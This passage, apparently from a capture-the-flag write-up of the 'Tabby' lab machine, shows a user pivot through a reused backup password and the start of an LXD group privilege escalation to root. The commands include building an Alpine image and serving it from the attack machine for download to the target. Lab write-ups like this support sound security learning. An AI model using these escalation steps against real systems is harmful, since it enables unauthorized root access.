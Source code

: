 ```text
unzip 16162020_backup.zip
```

Going through the content of the files, we don’t find anything useful. However, we do have a new password. So let’s see if it was reused anywhere on the target system. First, let’s try to su into the ash user.

```text
tomcat@tabby:/var/lib/tomcat9$ su ash
Password: 
ash@tabby:/var/lib/tomcat9$ whoami
ash
```

It works, we’re now running as _ash_. Let’s view the _user.txt_ file.

![Image for post](https://miro.medium.com/max/914/1*QHIWHXWgWI1w00MDZ6mdNQ.png)

Now we need to escalate our privileges to root. Let’s view the groups that the user is a part of.

```text
sh@tabby:~$ id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```

The _lxd_ group is particularly interesting. LXD is Ubuntu’s system container manager. This is similar to virtual machines, however, instead using linux containers. As described in [this link](https://reboare.github.io/lxd/lxd-escape.html), the lxd group should be considered harmful in the same way the [docker](https://www.andreas-jung.com/contents/on-docker-security-docker-group-considered-harmful) group is. Any member of the lxd group can immediately escalate their privileges to root on the host operating system.

This in itself is not a bug, but intended functionality as described in this [link](https://materials.rangeforce.com/tutorial/2019/12/07/Privilege-Escalation-Docker-LXD-Groups/).

![Image for post](https://miro.medium.com/max/1724/1*DAXwH9lcDDObaaZNm_yKvQ.png)

There are several ways to exploit this functionality and escalate privileges to root. We’ll do it by mounting the /root filesystem to the container. To do that, we’ll use the “_Exploiting without internet — Method 2_” instructions in [this link](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation).

First, download and build a linux alpine image on the attack machine.

```text
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder/
sudo bash build-alpine
```

Second, transfer the image to the target machine. This can be done by starting a python server on the attack machine.

```text
python -m SimpleHTTPServer 6666
```

Then download the archived file in the _ash_ directory of the target machine.
